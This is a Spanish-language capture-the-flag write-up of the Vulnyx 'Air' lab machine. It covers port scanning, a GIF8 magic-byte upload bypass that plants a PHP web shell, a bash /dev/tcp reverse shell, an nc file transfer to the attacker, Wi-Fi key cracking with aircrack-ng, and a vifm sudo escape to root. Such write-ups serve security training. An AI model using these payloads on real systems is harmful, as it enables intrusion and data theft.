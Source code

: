 ```yaml
---
title: Vulnyx - Air
author: estx
date: 2024-05-04 12:10:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'File Upload', 'Binary Abusing', 'Nginx']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Air/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **File Upload, Binary Abusing**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.72	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.72 -oG ports

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p22,80,8080 -sCV 192.168.100.72 -oN versions

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 0e:95:f2:88:f3:0f:ca:38:ec:da:3c:c0:cd:19:20:41 (ECDSA)
|_  256 53:21:e1:34:a6:f0:70:2b:87:e7:cf:3d:6b:85:9d:64 (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
8080/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://air.nyx:8080/
|_http-open-proxy: Proxy might be redirecting requests
```

* Vemos el dominio `air.nyx` el cual añadimos el `/etc/hosts`

```bash
❯ cat /etc/hosts

...
192.168.100.72	air.nyx
```

c. Al visitar el sitio web del puerto **8080**, tenemos un apartado para subir archivos. Si intentamos subir algunos archivos veremos el mensaje 'The file is not a valid image.', pero, si cambios los 'magic numbers' de un archivo **.php** por `GIF8` nos dejará subir una webshell

```php
GIF8

<?php system($_GET['cmd']); ?>
```

![Shell](/assets/images/Vulnyx/Easy/Air/01-shell.png)

d. Hacemos fuzzing para identificar el directorio en el que se suben los archivos

```bash
❯ dirsearch -u 'http://air.nyx:8080/'

<SNIP>
[17:24:03] 403 -  555B  - /uploads/
```

* Ahora podemos ejecutar comandos en la máquina víctima

```bash
❯ curl -s -X GET "http://air.nyx:8080/uploads/shell.php?cmd=whoami"
GIF8

www-data
```

e. Nos entablamos una reverse shell

```bash
❯ curl -s -X GET "http://air.nyx:8080/uploads/shell.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.100.55/4444%200>%261'"
------------------------------------------------------------------------------------
❯ nc -lvnp 4444
www-data@air:~/air/uploads$
```

### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
www-data@air:~/air/uploads$ script /dev/null -c bash
www-data@air:~/air/uploads$ ^Z
[1]  + 15681 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 15681 continued  nc -lvnp 4444
                                     reset xterm

www-data@air:~/air/uploads$ export TERM=xterm-256color
www-data@air:~/air/uploads$ source /etc/skel/.bashrc
```

* Listamos los permisos a nivel de sudoers de este usuario

```bash
www-data@air:~/tmp$ sudo -l

User www-data may run the following commands on air:
    (sam) NOPASSWD: /opt/air-repeater
```

* Al ejecutar este binario debemos obtener una contraseña, pero no la tenemos, por lo que buscamos archivos que puedan tener esta contraseña

2. Encontramos el archivo `backup-OpenWrt.tar.gz`

```bash
www-data@air:~/html/files/key/2023_router_backup$ ls
backup-OpenWrt.tar.gz
```

* Transferimos el este archivo a nuestra máquina

```bash
# Máquina Atacante
❯ nc -lvnp 4445 > backup-OpenWrt.tar.gz

# Máquina Air
www-data@air:~/html/files/key/2023_router_backup$ cat < backup-OpenWrt.tar.gz > /dev/tcp/[IP Máquina Atacante]/4445
```

* Descomprimimos el archivos y filtramos por palabras clave

```bash
❯ 7z x backup-OpenWrt.tar.gz
❯ tar -xf backup-OpenWrt.tar
❯ grep -E "key|pass" -r ./
./etc/opkg/keys/2f8b0b98e08306bf:untrusted comment: Public usign key for 21.02 release builds
./etc/profile:export HOME=$(grep -e "^${USER:-root}:" /etc/passwd | cut -d ":" -f 6)
./etc/profile:There is no root password defined on this device!
./etc/profile:Use the "passwd" command to set up a new password
./etc/config/wireless:  option key '42NsWajkZGlz'
./etc/config/luci-opkg: option passwd   "/etc/passwd"
./etc/config/uhttpd:    option key '/etc/uhttpd.key'
./etc/config/uhttpd:    option key_type 'ec'
./etc/config/rpcd:      option password '$p$root'
./etc/config/luci:      option passwd '/etc/passwd'
```

* Encontramos una posible contraseña `42NsWajkZGlz`

3. La usamos en el binario anterior y nos convertirmos en el usuario **sam**

```bash
www-data@air:~/html/files/key/2023_router_backup$ sudo -u sam /opt/air-repeater 
Enter the password: 42NsWajkZGlz
Correct password!
```

* Encontramos el archivo `Air-Master.zip`, lo transferimos a nuestra máquina

```bash
sam@air:/var/backups$ ls -al
-rw-------  1 xiao xiao    492 Nov  8 20:33 Air-Master.zip
```

* Al descomprimirlo solo hay un archivo `Air-Master-01.ivs`

> Los archivo **`.ivs`** contienen vectores de inicialización que son útiles para la generación de los datos cifrados en la red. Estos archivos pueden ser abiertos con `aircrack-ng`
{: .prompt-info }


```bash
aircrack-ng Air-Master-01.ivs -w /usr/share/wordlists/rockyou.txt

                          Aircrack-ng 1.7 

[00:00:01] <SNIP>/10303727 keys tested (6170.16 k/s) 

Time left: 27 minutes, 49 seconds                          0.03%

                    KEY FOUND! [ <SNIP> ]
```

4. Revisamos los permisos a nivel de sudoers de este usuario

```bash
sam@air:/var/backups$ sudo -l
Matching Defaults entries for sam on air:
User sam may run the following commands on air:
    (xiao) NOPASSWD: /usr/bin/vifm
sam@air:/var/backups$ sudo -u xiao /usr/bin/vifm
```

* Se abrirá un editor de texto, escribimos `!/bin/bash` y realizamos un **user pivoting** a `xiao`

5. Por último, la contraseña crackeada con **aircrack-ng**, nos servirá para acceder como root

```bash
xiao@air:~$ su root
Password: 
root@air:/home/xiao # 
```